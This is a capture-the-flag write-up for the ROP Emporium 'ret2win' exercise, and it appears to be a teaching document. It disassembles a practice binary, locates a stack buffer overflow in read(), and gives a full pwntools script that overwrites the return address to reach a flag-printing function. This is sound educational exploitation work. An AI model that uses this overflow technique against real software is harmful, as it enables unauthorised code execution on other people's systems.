








# Challenge 1 - Ret2win

## Disassembly
Let's start by disassembling the binary and start at main:



As can be seen it prints some information to the screen using puts and then calls pwnme. Let's take a look at pwnme.



In this function we have a buffer overflow. But how can we see that?

If we look at the first instructions of the function we can see that the function sets up a stack frame:

```C
push rbp        //Save old rbp
mov rbp, rsp    //Save old rsp
sub rsp, 0x20   //Move stack 0x20 further back 
```
This is a stack frame of the size 0x20. The function basically expects that all of the variables on the stack, combined will not exceed 0x20 in size.

If we look further down we can also see that a read call is performed:

```C
lea rax, [buf]
mov edx, 0x38
mov rsi, rax
mov edi, 0
call read
```
This is unnecessarily confusing as the ```lea rax, [buf]``` actually doesn't need to be there and can be replaced by an ```lea rsi [buf]``` so let's clean it up:

```C
mov rdi, 0
lea rsi, [buf]
mov rdx, 0x38
call read
```
To understand exactly what happens here we just need to know a tiny bit about GNU/Linux's calling convention.

## Calling convention

When arguments need to be passed to a function, values for the arguments are passed into the general purpose registers in a specific order (given that they are not floating point numbers). If there are too many arguments for the function, so that we run out of registers for this purpose, the rest are passed on the stack.

The calling convention goes as follows on GNU/Linux:
|Argument no.|Register|
|------------|--------|
|1|RDI|
|2|RSI|
|3|RDX|
|4|RCX|
|5|R8|
|6|r9|
|7..xx|On the stack|

We can then look up the corresponding man page for the function and check what the call would be. In this case it is read:

```
NAME
       read - read from a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t read(int fd, void *buf, size_t count);
```

So the call to read would be: 
```C 
read(0,*buf,0x38);
```

Basically reading 0x38 bytes from file descriptor 0 (stdin) into our buffer on the stack.

By basic math we can see that 0x38 is above 0x20, and therefore we have a buffer overflow.

Now that we are done with the reversing, let's get to the exploitation.

## Exploitation
### Pwntools broilerplate

I'll be using this boilerplate code I've made for pwntools, as my starting point for every exploit in ROPEmporium:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

io = gdb.debug(binary,gdbscript=gdbscript) #Open gdb with our binary executing our gdbscript

#Your
#Code
#Goes
#Here


io.interactive() #Make the binary halt for userinput
```
Runnning this with ```python3 exploit.py``` should open a new window with gdb attached and breaked at main.

The boilerplate can also be found in this folder named boilerplate.py

### Finding the padding

Now that we know we can overflow, we need to find the amount of padding needed before we overflow the return pointer.

We can use pwntools' cyclic function to generate a cyclic pattern of characters we can index through. Then send that to the binary:

```python
padding = cyclic(200)
io.send(padding)
```

We can then run and stop right before we return to check what the top stack value is:



The value the function is about to return to can be seen in the bottom half of the screen under "STACK". In this case we can see the string ```kaaalaaa```

We can then use pwntools' cyclic_find to adjust our padding, so we can put in the return pointer we are interested in instead of the string ```kaaalaaa```.

I'll be adding the string 'AAAA' so we can see that we now can control the return point

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')]
io.send(padding + b'AAAA')
```



As we can see under "STACK" the we will now try to return to the address "AAAA" or 0x41414141, we can now successfully control the return pointer

### Where do we want to go?
By looking at the different functions on the left side in Cutter I can see that we have a function called ret2win:



Disassembling it shows us that it calls 
```C 
system("/bin/cat flag.txt");
```



So let's copy that address ```0x00400756``` and try to return to that:

```python
padding = cyclic(200)[:cyclic_find('kaaalaaa')] #find padding
ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it
io.send(padding+ret2win)
```

We can now see that we will return to the ret2win function:



Pressing continue now starts loading system and we can see in our interactive shell in the other window that a flag has been printed:



Now we just need to see if it works if we replace gdb.debug with process, and we can get the flag without gdb attached!

Here's the full script:
```python
from pwn import *

context.arch = "amd64" #Specify x86-64 architecture

context.terminal = ["konsole","-e"] #Specify that I am using Konsole terminal

#Auto-executing gdbscript for every run
gdbscript = '''
b *main
c
'''

binary = "./ret2win" #Binary name

#io = gdb.debug(binary,gdbscript=gdbscript)
io = process(binary)

padding = cyclic(200)[:cyclic_find('kaaalaaa')]

ret2win = p64(0x400756) #ret2win function address packed to bytes so we can send it

io.send(padding+ret2win)

io.interactive()
```

And this gives us the flag as well:
```ROPE{a_placeholder_32byte_flag!}```


